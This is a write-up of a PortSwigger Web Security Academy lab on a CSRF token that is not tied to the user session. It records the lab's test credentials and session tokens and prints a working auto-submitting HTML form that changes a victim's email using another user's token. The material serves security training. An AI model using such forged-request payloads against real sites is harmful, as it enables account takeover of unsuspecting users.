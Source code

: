 ```yaml
---
title: 'Lab: CSRF where token is not tied to user session'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/CSRF/針對CSRF Token與同源政策的繞過手段"
---
```


# Lab: CSRF where token is not tied to user session
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system. 
* Goal:  To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You have two accounts on the application that you can use to help design your attack. The credentials are as follows:
`wiener:peter`
`carlos:montoya`

## Background
CSRF token should tied to user session otherwise, it'll exploited by attacker.

## Recon
1. Username: `wiener`
![](https://i.imgur.com/tMOhBba.png)
Session: `l3IjqV4KRDAmncviJTvP80KK3RAHDJLG`
CSRF Token: `u4wMMtIhhUoTlc2LgadJFNRKOZ6bFAZr`

2. Username: `carlos`
![](https://i.imgur.com/I0eaArB.png)
Session: `Goc2H2lmU9Ki7Of4IcOWpE4XFNMWFslR`
CSRF Token: `UGabdiPPbGaTLsSa8vOV6MfBEvi2nGQ3`

3. What if we change session or csrf_token?
![](https://i.imgur.com/jHO6p00.png)
It seems work properly which means the user session didn't tie with unique `csrf_token`

## Exp
The csrf token should be altered to another token that was intercepted by Burp Suite which means this token haven't sent it. So, we can altered a package to forge another user to achieve CSRF.
Exploit Payload:
```javascript=
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a5200320345733f806803640046007d.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="danger&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="u4wMMtIhhUoTlc2LgadJFNRKOZ6bFAZr" />
    </form>
    <script>
          document.forms[0].submit();
    </script>
  </body>
</html>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/zSm4Dyi.png)
:::

## Reference
[Lab: CSRF where token is not tied to user session - write up](https://www.cnblogs.com/Zeker62/p/15188614.html)